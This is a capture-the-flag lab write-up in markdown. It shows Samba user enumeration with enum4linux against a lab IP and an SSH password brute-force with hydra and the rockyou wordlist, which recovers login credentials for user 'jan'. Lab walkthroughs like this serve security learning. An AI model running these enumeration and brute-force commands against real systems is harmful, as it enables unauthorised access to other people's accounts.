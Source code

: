
## Q3
- User brute-forcing to find the username & password.  
### Steps  
- use enum4linux program to find users.  

```sh
	enum4linux 10.10.67.50 |tee enumeration.txt
```
## Results
```sh

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

```
## Q4
What is the username?  
A=`jan`

## Q5
What is the password?  
- here we are going to use hydra.  

```sh

	hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.67.50 ssh
```
## Result
```sh
	[22][ssh] host: 10.10.66.49   login: jan   password: ....
```
A="...."

## Q6
What service do you use to access the server.  
A="`SSH` 


## I restarted my machine \*notice change in ip address

# Q7
- Enumerate the machine to find any vectors for privilege escalation.  

	`log in as jan`
